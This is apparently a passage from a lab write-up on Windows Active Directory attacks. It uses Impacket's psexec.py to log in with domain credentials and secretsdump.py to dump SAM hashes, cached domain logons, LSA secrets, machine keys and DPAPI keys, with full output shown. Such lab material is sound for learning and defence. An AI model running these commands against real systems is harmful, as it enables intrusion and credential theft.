 ```ps

```

- login tothe system using psexec.py

``` ps
psexec.py marvel/dhoni:1234@Valimai@192.168.163.131
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/8.jpg)

### Dumping hashes with secretsdump.py

```py
secretsdump.py marvel/dhoni:1234@Valimai@192.168.163.131
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/9.jpg)

```ps
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:dfa0166b9627286ff32395e0a7c7c611:::
ahl:1002:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#92d171b1a17c0bc06dc2c62aa1fc72b9
MARVEL.LOCAL/ahl:$DCC2$10240#ahl#c35c511b4828f1edac26b4379595f423
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MARVEL\AHL-PC$:aes256-cts-hmac-sha1-96:a2685629a27d3031d6466d606ecbba81a5acc10b8c4cb2132b2a7f85003e9bb1
MARVEL\AHL-PC$:aes128-cts-hmac-sha1-96:51d33eeb228d3d6a3dcb4c9781589790
MARVEL\AHL-PC$:des-cbc-md5:ae1c579b511ae502
MARVEL\AHL-PC$:plain_password_hex:5c00280067002f004b00320024005e002d005300490068005e0044005e006a00510025003000480054003700610020004f002b0050005d0026003200490078004f00640021002000760077005f0052004000790079004c004c00440069002d0028006000400065003f0020004400780035004e007100510060004e005b00320050005c004d00360034003b0061007100540043003900700060003f00240053005500450025002c005e003d00540043004200470071003f00780070005c005300240070005b004c006b0037002100260072006a002b00790063002f004c0036002b007200230032006a007a0060002600
MARVEL\AHL-PC$:aad3b435b51404eeaad3b435b51404ee:55e0dd253ebfc2091d8a524ed4abcfb9:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xd22f574407ccd9e5aeed8a0957a3445d62d3b609
dpapi_userkey:0x6c97e62d7274e2e3a31d3ce4ebd7bfda343c8b03
[*] NL$KM 
 0000   0D 1C 2D 54 9A AA 10 A6  55 66 EF 2B 74 F5 D6 A6   ..-T....Uf.+t...
 0010   60 9C 07 41 F0 B2 93 7B  A4 38 E2 1B 8B 8D CC 39   `..A...{.8.....9
 0020   DF 80 AF E8 66 CF 9B 3A  0F 3A 9E A2 1C 15 6C 54   ....f..:.:....lT
 0030   49 EB F7 5C 6C F6 14 E6  16 40 90 A9 7E F8 12 31   I..\l....@..~..1
NL$KM:0d1c2d549aaa10a65566ef2b74f5d6a6609c0741f0b2937ba438e21b8b8dcc39df80afe866cf9b3a0f3a9ea21c156c5449ebf75c6cf614e6164090a97ef81231
```
